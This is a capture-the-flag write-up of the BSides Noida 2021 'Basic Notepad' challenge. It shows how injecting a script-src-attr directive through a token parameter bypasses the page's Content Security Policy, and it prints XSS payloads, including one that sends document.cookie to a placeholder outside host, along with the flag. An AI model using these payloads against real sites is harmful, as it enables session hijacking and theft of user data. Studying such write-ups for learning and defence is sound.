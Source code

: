 ```yaml
---
title: "BSides Noida CTF 2021 Basic Notepad writeup"
description: "BSides Noida CTF 2021 Basic Notepad writeup"
authors: [hi120ki]
tags: [CTF, Web, Web Security]
slug: posts/20210808
---
```


## Challenge

```
Create a note and share with admin :eyes:
Note : Bruteforce is not required.
```

<!-- truncate -->

## Solution

This is a simple memo application, and it has a button "Share with admin", so the problem is related to XSS.

Checked the url, it has two parametrs "msg" and "token".

[http://ctf.notepad1.bsidesnoida.in/review?msg=bWVtbw&token=5ruMlXaWgLCJgsghznm9gg](http://ctf.notepad1.bsidesnoida.in/review?msg=bWVtbw&token=5ruMlXaWgLCJgsghznm9gg)

"msg" is base64 encoded memo text, and "token" is auto generated strings.

This memo text is not escaped, and we can set XSS.

But CSP is set for this memo app, and CSP report url contains "token" parameter.

```
content-security-policy: script-src 'none'; object-src 'none'; base-uri 'none'; script-src-elem 'none'; report-uri /report/5ruMlXaWgLCJgsghznm9gg
```

We can change the CSP by changing the "token" parameter.

If the csp has two directives, the later one will be ignored.

In this case, `script-src` and `script-src-elem` are already set, so we can't overwrite them.

However, there is one more csp directive related to javascript, which is `script-src-attr`.

[CSP: script-src-attr - MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src-attr)

`script-src-attr` directive specifies valid sources for JavaScript inline event handlers. This will allow inline script to be executed by event handlers like onclick.

Therefore, we can execute any javascript by putting the following values in msg and token.

`msg`

```
<img src=# onerror=alert(1)>
```

`token`

```
a; script-src-attr 'unsafe-inline';
```

> CSP will be `script-src 'none'; object-src 'none'; base-uri 'none'; script-src-elem 'none'; report-uri /report/a; script-src-attr 'unsafe-inline';`

I got the cookie by this msg.

```
<img src=# onerror='fetch("https://xxx/?cookie=" + encodeURI(document.cookie))'>
```

Flag is

```
BSNoida{s0me_b4s1c_CSP_1nj3ct10n}
```
